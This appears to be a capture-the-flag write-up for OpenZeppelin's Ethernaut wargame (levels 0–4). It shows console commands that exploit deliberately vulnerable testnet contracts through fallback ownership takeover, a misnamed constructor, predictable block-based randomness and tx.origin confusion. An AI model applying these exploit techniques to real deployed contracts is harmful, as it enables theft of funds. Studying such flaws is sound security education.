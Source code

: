 # OpenZeppelin - Ethernaut

The [Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity-based wargame inspired by [overthewire.org](https://overthewire.org/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. Here are the writeups of my solutions for all the levels.

First, connect your wallet and make sure you are on a **testnet**.

## 0. Hello Ethernaut

It was more of an introductory level, helping you set up for the upcoming levels and giving bits of the basic but necessary information. [Create](https://sepolia.etherscan.io/tx/0x2acde9eb4f1a84eccdc86056da1dc9c3513b7d76c2b16f22b4b29e59f402e2b8) your [level instance](https://sepolia.etherscan.io/address/0x7430be47aac4dcf367fa4d9be04883d8be2441cb).

Then, look into `contract.info()` and complete the level:

```js
> await  contract.info()
'You will find what you need in info1().'
> await  contract.info1()
'Try info2(), but with "hello" as a parameter.'
await  contract.info2("hello")
'The property infoNum holds the number of the next info method to call.'
> await contract.infoNum()
words:
Array(2)
0:42
> await contract.info42()
'theMethodName is the name of the next method.'
> await contract.theMethodName()
'The method name is method7123949.'
> await contract.method7123949()
'If you know the password, submit it to authenticate().'
```

Okay, we don't know the password, but there is a method with that name:

```js
> await contract.password()
'ethernaut0'
```

Let's [authenticate](https://sepolia.etherscan.io/tx/0x584d4d7b2ec5ebf18a7072afb4728067d78bc742d20330905a81b19db50f2daf):

```js
> await contract.authenticate("ethernaut0")
```

Once the tx is confirmed, [submit](https://sepolia.etherscan.io/tx/0x6d788da493953ea7e23671b338dae1f0b96ad6a510ba16591575325b01bfc961) the level, and congrats you cleared your first ethernaut level!!

## 1. Fallback

First, [create](https://sepolia.etherscan.io/tx/0x1b3075a4642dec18d4f8d640766b5d8763330f60543a59a9bc9ba6616f5efeed) the [level instance](https://sepolia.etherscan.io/address/0x6d660aE836b7E481E9b3cFa8E01478eFBb743897):

> You will beat this level if you claim ownership of the contract and you reduce its balance to 0.
> Things that might help:
>
> - How to send ether when interacting with an ABI
> - How to send ether outside of the ABI
> - Converting to and from wei/ether units (see help() command)
> - Fallback methods

Let's check who is the **owner**:

```js
> await contract.owner()
'0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB'
```

[Call](https://sepolia.etherscan.io/tx/0x7b0ebf56fc14bc05113d9377994dafacba3005b5ef34e30ffb089f60bc779ee6) the `contribute()` method with the right amount of `ether` to pass the condition.

```js
await contract.contribute({ value: toWei("0.0001", "ether") });
```

The Smart Contract has a `payable fallback` receive funcion so we will just [send](https://sepolia.etherscan.io/tx/0xcf49a66ada6dc7a296927bd10ef428ead9e2aae94b4e99c4a5a3babb83ee3fab) a tx with some amount of `ether` and empty data to call it:

```js
> await sendTransaction({
  to: "0x6d660aE836b7E481E9b3cFa8E01478eFBb743897",
  value: toWei("0.0001", "ether"),
  from: "0xb8b74dc6bce6b16dcd634ab94600a3c9967e6f0d",
});
"0xcf49a66ada6dc7a296927bd10ef428ead9e2aae94b4e99c4a5a3babb83ee3fab"
```

Let's see who is the **owner** now:

```js
> await contract.owner();
"0xB8b74Dc6bce6B16dcd634aB94600a3c9967E6F0D"
```

I'm the **owner** now so I can [withdraw](https://sepolia.etherscan.io/tx/0x7fb9e0d63c4b14028f3d37b8d2779c1a2e9457d079e408fe4060519735064dd2) everything 😎:

```js
> await contract.withdraw()
{tx: '0x7fb9e0d63c4b14028f3d37b8d2779c1a2e9457d079e408fe4060519735064dd2'}
```

[Submit](https://sepolia.etherscan.io/tx/0x12f7e4ff905d3609f595709d4296be0e6e607a9ac046bee183bb331567892131) level instance to finish.

## 2. Fallout

First, [create](https://sepolia.etherscan.io/tx/0xf42e581a626fcdf22ae841976fb88a591fd819671eb3fa95b28dcf052749f90f) the [level instance](https://sepolia.etherscan.io/address/0xaF2C39b2AD3E3b8a33B6eCD7D4A583DF064c4e50):

> Claim ownership of the contract below to complete this level.
> Things that might help:
>
> - Solidity Remix IDE

Check who is the current **owner**:

```js
> await contract.owner()
'0x0000000000000000000000000000000000000000'
```

This was an easy level because we can use the function marked as a **constructor** for the Smart Contract has a typo. It is `Fal1out()` instead of `Fallout()`.

Let's simply [call](https://sepolia.etherscan.io/tx/0x27583e3d65e79684f1762306c9886b3cd2982073bf5ba8795b69df389b98bdb9) this function and send `10 wei` to become the **owner**:

```js
> await contract.Fal1out({value:"10"})

{tx: '0x27583e3d65e79684f1762306c9886b3cd2982073bf5ba8795b69df389b98bdb9'}
```

Then, we can see we are the **owner**...

```js
> await contract.owner()
'0xB8b74Dc6bce6B16dcd634aB94600a3c9967E6F0D'
```

[Submit](https://sepolia.etherscan.io/tx/0x942fb6c2348a5a78b41271fc4f1bd05e8b7b621700be40c94ed14c6c6caa46aa) level instance to finish.

## 3. Coin Flip

First, [create](https://sepolia.etherscan.io/tx/0x8d11cd80e3d5da41c68bc7980f67552149d25cce53b394fc1efd864b0a4f34ea) the [level instance](https://sepolia.etherscan.io/address/0x773318bacf964d3999687d33eacbbb740152c3c8):

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

The `flip()` _function_ is using the **current block number** to decide the side of the coin, so the random-seeming function is not really random.

We can access the block number in a separate smart contract and predict the output of the `flip()`. The only thing we need to take care of is the first _function_ that checks if the `blockValue` is the same as the previously stored hash, indicating a **replay attack**.

```js
if (lastHash == blockValue) {
  revert();
}
```

So we cannot use a `for loop` and call the `flip()` 10 times in a **single transaction** since that transaction will be written in a single block and in the second iteration of the loop the **lastHash** will become equal to the `blockValue` resulting in a revert.

Let's [deploy](https://sepolia.etherscan.io/tx/0x760f8f157fb1149dda2535d48c7378e98c2b6d3e6e9cfcea66fd766feec9b7ce) the [CoinFlipAttack.sol](https://sepolia.etherscan.io/address/0xe41b7732da112da4316cd46fa02d2e1cdadb70ee) contract using the `CoinFlip` **address**. Then execute the `IncreaseItBy1` function 10 times manually.

[Submit](https://sepolia.etherscan.io/tx/0xbf59e2e5635ace5352f38c7aea27490945c47a89d48a7c827002f533a8498f4c) level instance to finish.

## 4. Telephone

First, [create](https://sepolia.etherscan.io/tx/0x46005f807d17164bab005d2b454c5da4abb5117323b70fbe217205a2f783b05e) the [level instance](https://sepolia.etherscan.io/address/0x06ec685d245564f48e78f588a1e9eec043c55ce0):

> Claim ownership of the contract below to complete this level.

Let's see who is the **current owner**:

```js
> await contract.owner()
'0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446'
```

The conditional in the `changeOwner()` can be passed only if the **origin** of the transaction is not the same as the **last message sender**.

The `tx.origin` global variable refers to the **original external account** that started the transaction while `msg.sender` refers to the immediate account (it could be external or another contract account) **that invokes the function**.

We simply need to [deploy](https://sepolia.etherscan.io/tx/0xcdf553eb8a9b78aea0692315e52c3f616298719e3b4ffd971c5d64f1cc7e57fb) an intermediate [contract](https://sepolia.etherscan.io/address/0x7314d9756c11fb57563765dddce504ce517789c3) and [invoke](https://sepolia.etherscan.io/tx/0x8a316bffcb349d36d786e98d2c900be4bd5063b764451ec7e4084e1da384f9f1) the `changeOwner()` from it.

And now we are the **owner**:

```js
> await contract.owner()
'0xB8b74Dc6bce6B16dcd634aB94600a3c9967E6F0D'
```

[Submit](https://sepolia.etherscan.io/tx/0x8ef00b350da3dfd038b951bdbbef343257d3512e693616ec9ee78564dbd33b5c) level instance to finish.
